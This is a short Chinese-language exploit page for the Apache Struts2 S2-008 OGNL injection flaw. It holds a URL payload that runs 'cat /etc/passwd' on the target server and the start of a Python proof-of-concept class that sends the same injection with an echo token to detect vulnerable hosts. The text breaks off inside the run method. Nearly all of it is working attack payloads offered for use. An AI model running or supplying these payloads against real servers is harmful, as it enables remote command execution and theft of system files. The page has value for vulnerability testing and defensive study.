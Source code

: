 #### 读取文件

```java
?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_008_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-008漏洞,又名CVE-2012-0391漏洞',
            'description': 'Struts2 S2-008漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.17',
            'date': '2012-01-02',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
                self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/devmode.action'
        self.capta = self.get_capta() 
        self.check_payload =  '?debug=command&expression=%28%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28"false"%29%20%2C%23context%5B"xwork.MethodAccessor.denyMethodExecution"%5D%3D%23foo%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%27%29.getInputStream%28%29%29%29'''
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            check_url = self.url + self.check_payload
```